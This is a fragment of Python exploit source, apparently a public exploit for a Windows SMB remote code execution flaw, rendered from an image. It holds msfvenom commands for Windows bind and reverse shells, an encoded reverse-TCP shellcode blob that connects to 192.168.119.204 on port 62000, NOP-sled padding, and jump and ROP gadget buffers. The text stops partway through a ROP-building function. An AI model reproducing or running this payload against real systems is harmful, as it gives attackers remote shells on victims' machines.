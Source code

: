 ```python
# ------------------------------------------------------------------------
# REPLACE THIS SHELLCODE with shellcode generated for your use
# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
#
# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Reverse TCP to 192.168.119.204 port 62000:
shellcode=(
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xae\xc3\xb5\x92\x83\xee\xfc\xe2\xf4\x52\x2b\x37\x92\xae\xc3"
"\xd5\x1b\x4b\xf2\x75\xf6\x25\x93\x85\x19\xfc\xcf\x3e\xc0\xba"
"\x48\xc7\xba\xa1\x74\xff\xb4\x9f\x3c\x19\xae\xcf\xbf\xb7\xbe"
"\x8e\x02\x7a\x9f\xaf\x04\x57\x60\xfc\x94\x3e\xc0\xbe\x48\xff"
"\xae\x25\x8f\xa4\xea\x4d\x8b\xb4\x43\xff\x48\xec\xb2\xaf\x10"
"\x3e\xdb\xb6\x20\x8f\xdb\x25\xf7\x3e\x93\x78\xf2\x4a\x3e\x6f"
"\x0c\xb8\x93\x69\xfb\x55\xe7\x58\xc0\xc8\x6a\x95\xbe\x91\xe7"
"\x4a\x9b\x3e\xca\x8a\xc2\x66\xf4\x25\xcf\xfe\x19\xf6\xdf\xb4"
"\x41\x25\xc7\x3e\x93\x7e\x4a\xf1\xb6\x8a\x98\xee\xf3\xf7\x99"
"\xe4\x6d\x4e\x9c\xea\xc8\x25\xd1\x5e\x1f\xf3\xab\x86\xa0\xae"
"\xc3\xdd\xe5\xdd\xf1\xea\xc6\xc6\x8f\xc2\xb4\xa9\x3c\x60\x2a"
"\x3e\xc2\xb5\x92\x87\x07\xe1\xc2\xc6\xea\x35\xf9\xae\x3c\x60"
"\xc2\xfe\x93\xe5\xd2\xfe\x83\xe5\xfa\x44\xcc\x6a\x72\x51\x16"
"\x22\xf8\xab\xab\x75\x3a\xd9\x0f\xdd\x90\xae\x31\x85\x1b\x48"
"\xa9\xa5\xc4\xf9\xab\x2c\x37\xda\xa2\x4a\x47\x2b\x03\xc1\x9e"
"\x51\x8d\xbd\xe7\x42\xab\x45\x27\x0c\x95\x4a\x47\xc6\xa0\xd8"
"\xf6\xae\x4a\x56\xc5\xf9\x94\x84\x64\xc4\xd1\xec\xc4\x4c\x3e"
"\xd3\x55\xea\xe7\x89\x93\xaf\x4e\xf1\xb6\xbe\x05\xb5\xd6\xfa"
"\x93\xe3\xc4\xf8\x85\xe3\xdc\xf8\x95\xe6\xc4\xc6\xba\x79\xad"
"\x28\x3c\x60\x1b\x4e\x8d\xe3\xd4\x51\xf3\xdd\x9a\x29\xde\xd5"
"\x6d\x7b\x78\x55\x8f\x84\xc9\xdd\x34\x3b\x7e\x28\x6d\x7b\xff"
"\xb3\xee\xa4\x43\x4e\x72\xdb\xc6\x0e\xd5\xbd\xb1\xda\xf8\xae"
"\x90\x4a\x47"
)
# ------------------------------------------------------------------------

# Gotta make No-Ops (NOPS) + shellcode = 410 bytes
num_nops = 410 - len(shellcode)
newshellcode = "\x90" * num_nops
newshellcode += shellcode  # Add NOPS to the front
shellcode = newshellcode   # Switcheroo with the newshellcode temp variable

#print "Shellcode length: %s\n\n" % len(shellcode)

nonxjmper = "\x08\x04\x02\x00%s" + "A" * 4 + "%s" + \
    "A" * 42 + "\x90" * 8 + "\xeb\x62" + "A" * 10
disableNXjumper = "\x08\x04\x02\x00%s%s%s" + "A" * \
    28 + "%s" + "\xeb\x02" + "\x90" * 2 + "\xeb\x62"
ropjumper = "\x00\x08\x01\x00" + "%s" + "\x10\x01\x04\x01";
module_base = 0x6f880000


def generate_rop(rvas):
    gadget1 = "\x90\x5a\x59\xc3"
    gadget2 = ["\x90\x89\xc7\x83", "\xc7\x0c\x6a\x7f", "\x59\xf2\xa5\x90"]
    gadget3 = "\xcc\x90\xeb\x5a"
    ret = struct.pack('<L', 0x00018000)
```